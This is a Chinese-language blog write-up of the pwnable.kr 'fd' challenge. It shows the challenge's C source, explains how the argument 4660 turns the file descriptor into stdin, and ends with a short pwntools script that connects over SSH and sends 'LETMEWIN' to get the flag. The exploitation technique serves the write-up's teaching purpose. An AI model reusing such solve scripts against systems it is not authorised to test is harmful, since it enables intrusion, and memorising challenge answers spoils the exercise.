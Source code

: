 ```yaml
---
date: 2019-08-07
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Pwn
- pwnable
blog: true
category: blog
layout: post
title: Pwnable-01-fd
description: >
  这是pwnable的第一题fd的解析过程,其中涉及到思路分析
#tags: [技术]
author: DshSec
---
```

#### pwnable介绍

  [pwnable.kr](https://pwnable.kr/index.php)is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. the main purpose of pwnable.kr is 'fun'.    please consider each of the challenges as a game. while playing pwnable.kr, you could learn/improve system hacking skills but that shouldn't be your only purpose.
#### 源代码：

```c++
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  char buf[32];

  int main(int argc, char* argv[], char* envp[]){
      if(argc<2){
  	printf("pass argv[1] a number\n");
  	return 0;
  	}
  	int fd = atoi( argv[1] ) - 0x1234; //atoi把字符串转成整形
  	int len = 0;
  	len = read(fd, buf, 32); //将参数fd所指的文件传送32个字符到buf
  	if(!strcmp("LETMEWIN\n", buf)){     //strcmp(str1,str2),str1=str2返回0，str1<str2返回负数，str1>str2返回正数
  		printf("good job :)\n");        //buf==LETMEWIN\n的时候输出flag
  		system("/bin/cat flag");    
  		exit(0);
  	}
  	printf("learn about Linux file IO\n");
  	return 0;

  }
```
#### 解题思路

```
  目标：执行system(“/bin/cat flag”);
  则：strcmp(“LETMEWIN\n”, buf) == 0
  则：buf = “LETMEWIN\n”
  则：read(fd, buf, 32)将buf设为”LETMEWIN\n”
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
  所以我们可以使fd == 0，然后从终端输入LETMEWIN后回车
  要使fd == 0，
  则：输入的参数 == 0x1234，即4660

  从文件描述符fd所指向的文件中读取count个字节的数据到buf所指向的缓存中。
  文件描述符是由无符号整数表示的句柄，进程使用它来标识打开的文件。
  文件描述符0代表标准文件。
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
```
#### 解答：

先输入0x1234的十进制即4660，然后再输入LETMEWIN
./fd 4660
LETMEWIN

#### poc
```python
  from pwn import *
  pwn_ssh=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
  print(pwn_ssh.connected())
  sh=pwn_ssh.process(argv=['fd','4660'],executable='./fd')
  sh.sendline('LETMEWIN')
  print(sh.recvall())
```
